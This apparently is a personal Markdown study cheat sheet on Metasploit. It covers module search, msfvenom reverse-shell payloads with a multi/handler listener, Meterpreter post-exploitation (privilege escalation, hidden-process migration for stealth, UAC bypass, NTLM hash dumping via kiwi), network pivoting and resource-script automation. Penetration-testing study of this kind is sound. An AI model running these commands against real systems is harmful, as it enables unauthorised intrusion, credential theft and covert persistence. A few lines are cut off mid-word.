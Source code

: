 ```yaml
---
layout: blank
pagetitle: Metasploit
---
```



## The Basics
**Setup and Navigate Metasploit**
- Database isn't enabled by default
	- `sudo msfdb init`, `sudo systemctl enable postgresql`
		- To restart database, stop postgresql and then `sudo msfdb reinit`
	- Run `db_status` in the console to check
- Workspaces
	- `workspace` - create workspaces when pentesting a client 
	- `db_nmap` - works like regular nmap, but stores results in the db
		- Query db with `hosts` for hosts and `services` for services
- `show -h` to show all modules, like `exploits`, `payloads`, and `auxiliary`
	- Showing payloads is nice; default is usually reverse tcp shel

**Auxiliary Modules**
- Used for external attacks, like enumeration, scanning, fuzzing, sniffing, etc.
- `search` to search through the modules, with `type` to specify the module type
	- For example: `search type:auxiliary smb` or `search Apache 2.4.41`
	- When some exploits have multiple targets, and you have a m
- `use` to use a module with a given index from a search
	- For example: `use /auxiliary/scanner/ssh/ssh_login` to brute force ssh
- `info` to get information about the current module
- `show options` to give options that the module can use
- `set {option} {parameter}` to set an option to a given parameter, like RHOSTS to an IP
	- `unset` to unset
	- can set files by providing the path
	- can set payloads by providing the path (`/payload/linux/x86/shell_reverse_tcp`)
- `vulns` to see if any vulnerabilities have been automatically detected
- `creds` to show any discovered creds
- `run -j` to run a job in the background and create a session for one client
- `sessions` can switch between shells
	- Use CTRL+Z to exit a shell but keep it in the background
	- `sessions -l` to list available sessions
	- `sessions -i {session_number}` to switch (interact) with a session
	- `sessions -c 'command' -a` to run a command on all sessions

**SearchSploit**
- `sudo apt install exploitdb`
- Contains archive of all exploit code from exploitdb
- Can search through exploits with `searchsploit {string}`
- Can copy exploits to home directory with `-m`

## Using Payloads 

**Staged/Non-Stated Payloads**
- Non-staged: payload is sent along with the exploit
	- No use of `/`  means that it's non-staged (e.g. `shell_reverse_tcp`)
- Staged: Exploit the machine for a callback, then give a larger payload
	- `/` indicates a staged payload (e.g. `shell/reverse_tcp`)
- `show payloads` to see a list of all payloads
	- `set payload {index}` to set a payload after showing them

**Meterpreter**
- Multi-function payload residing entirely in memory
- `help` to display commands in shell
- `sysinfo`  and `getuid` to gather system data
- put `l` before any command to run it on kali
- Channels:
	- Basically the same thing as `sessions` in msf
	- `shell` and Ctrl+Z to push a channel to the background
	- `channel -l` to list all channels
	- `channel -i 1` to interact with a channel
- `download {file_path}` to download a file from the system
- `upload {local_file_path} {resulting_file_path}` to upload a file to the system
- `search -f {filename}` to search from `/` for a file named `{filename}`

**Executable Payloads**
- `msfvenom` can generate malicious executables
- `msfvenom -l payloads --platform {os (windows)} --arch {arch (x86)}` to list payloads
- `msfvenom -p {path_to_payload} LHOST={IP} LPORT={kali_listening_port} -f {filetype (exe)} -o {output_executable}` to generate an executable
- To get an interactive shell via a staged payload, we can use Metasploit's *multi/handler*
	- `use multi/handler`
	- Staged payloads will now give us an interactive shell
- Steps:
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f c`
		- Can also use generic ones:
			- `windows/x64/shell_reverse_tcp`
			- `linux/x64/shell_reverse_tcp`
	- `msfconsole`
	- `use exploit/multi/handler`
	- `set payload linux/x86/meterpreter/reverse_tcp`
	- `set LHOST 10.0.0.1`
	- `set LPORT 4444`
	- `exploit -j`

## Post-Exploitation

**Meterpreter Post-Exploitation Features**

- `idletime` to see how long it's been since the system was used (e.g. don't run shit until empty)
- `getsystem` to attempt to elevate privileges to NT AUTHORITY\\SYSTEM
- `migrate {process_id}` - injects meterpreter into another process for stealth and persistence
	- If no good processes exist, create one with `execute -H -f {process (notepad)}`
		- `-H` hides the process, so no visual representation will be present

**Post-Exploitation Modules**
- After injecting ourselves into another process, our privilege level drops, so we need to escalate
- `exploit/windows/local/bypassuac_sdclt` is good for UAC bypassing on Windows
	- We can set our session to the session running the shell (from Ctrl+Z -> `bg`)
- Can load extensions directly inside the active session using `load`
	- `load kiwi` to load an extension equivalent to Mimikatz
	- `help` to view commands, like `creds_msv` to dump NTLM hashes
- Can search for post exploitation modules with `search post ...`
	- These only require a meterpreter session id

**Pivoting with Metasploit**
- After getting on a machine, we can enumerate the network in a number of ways
- If we find an internal IP from something like `ipconfig`, we can pivot to it with the following:
	- `bg` to background the session in meterpreter and `route add {IP.IP.IP.0/24} {session_number}` to add a route to an internal network reachable through a compromised host
		- We can remove old routes with `route flush`
	- We can then set RHOSTS to an internal IP and use something like `auxiliary/scanner/portscan/tcp` to scan the open ports on the internal IP
	- Running exploits is the exact same--it just required the route set up in Metasploit
- Can also use `autoroute` module to set up pivot routes
	- `use multi/manage/autoroute`
	- `set session {session_ID}` - can list all sessions with `sessions -l`
- Can also combine routes with `server/socks_proxy`
	- `use auxiliary/server/socks_proxy`
	- Then set `VERSION`, `SRVHOST` as localhost, and `run -j`
		- This will probably return the port 1080
	- Then add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`
	- Can then use proxychains to run commands, such as `xfreerdp3`
		- `sudo proxychains xfreerdp3 /v:{internal_target_IP} /u:luiza`
- Can also use `portfwd`
	- Use a meterpreter session with `sessions -i {session #}`
	- Then, port forward with `portfwd add -l {local_port} -p {remote_port} -r {int_IP}`

## Automation

**Resource Scripts**
- Can chain together metasploit commands and Ruby code
	- Put all commands in a script (.rc) and pass it to msfconsole with `-r`
	- Can configure AutoRunScript to automatically execute a module after the script has been run - `set AutoRunScript {module (/post/windows/manage/migrate)}`
	- `set ExitOnSession` to false to keep the multi/handler listening after a connection
	- Then, run with `-z` and `-j` to put the job in the background and stop us from interacting
- Prebuilt available at `/usr/share/metasploit-framework/scripts/resource`